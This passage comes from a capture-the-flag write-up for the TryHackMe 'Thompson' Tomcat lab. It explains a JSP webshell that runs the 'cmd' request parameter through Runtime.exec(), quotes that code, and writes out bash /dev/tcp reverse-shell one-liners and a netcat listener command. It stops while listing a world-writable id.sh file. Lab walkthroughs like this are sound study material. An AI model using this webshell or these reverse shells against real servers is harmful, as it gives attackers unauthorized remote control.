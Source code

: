 This is what is looks like after deployment of the `.war` application:

![[TryHackMe/Thompson/images/17.png]]

Let me try few commands:

![[TryHackMe/Thompson/images/18.png]]

HTTP parameters are retrieved by `request.getParameter("cmd")` and specifically finding `cmd` parameter's requests. Method allows us to run commands remotely. By default application is vulnerable to `RCE`.

![[TryHackMe/Thompson/images/19.png]]

![[TryHackMe/Thompson/images/20.png]]

You should also understand how the cmd works in backend. If it is not null, It is creating process with executing command method named exec() then it passes cmd and two consecutive null parameters. After that application receives & reads inputs given by user and add it on Buffer named `sI`.

```
if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
```

By using `readLine()` method it will reads if it is not `null` and gathers HTML formatted outputs:

```
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
```

Each time `output` appending `s` variable, string. Let's pass `webshell` through command-line:

Reverse shell generation is not hard process to understand simply visit this [page](https://www.revshells.com/).

`bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1`

`cd /home/jack; bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1`

Before you execute `reverse shell` payload, do not forget to deploy netcat listener: 

`nc -lvnp YOUR_PORT`

Direct command-line reverse shell was not available ,so I can directly reach by powerful command-line

![[TryHackMe/Thompson/images/21.png]]

`-rwxrwxrwx 1 jack jack 26 Aug 14  2019 /home/jack/id.sh`

Content of the `id.sh`:
